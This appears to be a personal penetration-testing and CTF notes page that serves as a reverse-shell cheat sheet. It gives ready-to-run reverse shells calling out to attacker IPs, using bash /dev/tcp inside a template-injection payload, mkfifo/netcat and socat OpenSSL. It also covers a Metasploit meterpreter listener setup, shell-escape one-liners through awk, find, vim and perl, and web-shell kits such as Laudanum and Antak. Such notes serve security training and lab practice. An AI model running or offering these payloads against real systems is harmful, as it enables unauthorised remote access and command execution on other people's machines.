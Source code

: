 
```embed
title: "Online - Reverse Shell Generator"
image: "https://user-images.githubusercontent.com/58673953/111243529-9d646f80-85d7-11eb-986c-9842747dc2e7.png"
description: "Online Reverse Shell generator with Local Storage functionality, URI & Base64 Encoding, MSFVenom Generator, and Raw Mode. Great for CTFs."
url: "https://www.revshells.com/"
```

```php
{{ ["bash -c 'exec bash -i >& /dev/tcp/10.10.239.163/4445 0>&1'", ""] | sort('passthru') }}
```

Start meterpreter listener Kali MSF
#rev_shell
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST
set LPORT

exploit
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.28 9001 >/tmp/f

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.28 9001  | tee -a monitor.sh

```

## OS Shells
#Helpful 
#### Lua To Shell

Spawning Interactive Shells

```shell
lua: os.execute('/bin/sh')
```


#### Ruby To Shell

Spawning Interactive Shells

```shell
ruby: exec "/bin/sh"
```

#### Perl To Shell

Spawning Interactive Shells

```shell
perl —e 'exec "/bin/sh";'
```

Spawning Interactive Shells

```shell
perl: exec "/bin/sh";
```

## /bin/sh -i

This command will execute the shell interpreter specified in the path in interactive mode (`-i`).

#### Interactive

Spawning Interactive Shells

```shell
/bin/sh -i
sh: no job control in this shell
sh-4.2$
```

#### AWK To Shell

Spawning Interactive Shells

```shell
awk 'BEGIN {system("/bin/sh")}'
```

#### Using Find For A Shell

Spawning Interactive Shells

```shell
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```
```shell
find . -exec /bin/sh \; -quit
```

## VIM

Yes, we can set the shell interpreter language from within the popular command-line-based text-editor `VIM`. This is a very niche situation we would find ourselves in to need to use this method, but it is good to know just in case.

#### Vim To Shell

Spawning Interactive Shells

```shell
vim -c ':!/bin/sh'
```

#### Vim Escape

Spawning Interactive Shells

```shell
vim
:set shell=/bin/sh
:shell
```

---
## Web Shells

---
#### Laudanum
Laudanum is a repository of ready-made files that can be used to inject onto a victim and receive back access via a reverse shell, run commands on the victim host right from the browser, and more.
#Helpful [[Web Basics]] [[File_Transfering]]
```shell
$ ls /usr/share/laudanum           
asp  aspx  cfm  helpers  jsp  php  wordpress
```

## Antak Webshell

Antak is a web shell built in ASP.Net included within the [Nishang project](https://github.com/samratashok/nishang). Nishang is an Offensive PowerShell toolset that can provide options for any portion of your pentest.
```bash
$ ls /usr/share/nishang 
```

### Shell Generation and Preconfigured Links

Aside from the tools we've already covered, there are some repositories of shells in many different languages. One of the most prominent of these is [Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). The PentestMonkey [Reverse Shell Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) is also commonly used. In addition to these online resources, Kali Linux also comes pre-installed with a variety of webshells located at `/usr/share/webshells`. The [SecLists repo](https://github.com/danielmiessler/SecLists), though primarily used for wordlists, also contains some very useful code for obtaining shells.

## Staged vs Stageless
[[MetaSploit]] [[MSFVenom]] 
- _Staged_ payloads are sent in two parts. The first part is called the _stager_. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task. **Look for the seperating / for staged payloads**
- _Stageless_ payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener. **Look for the _ in the payload name for Stageless**


### **Socat OpenSSL Help**
```
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0

socat OPENSSL:10.10.10.5:53,verify=0 EXEC:/bin/bash

socat OPENSSL::10.10.10.5:53 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

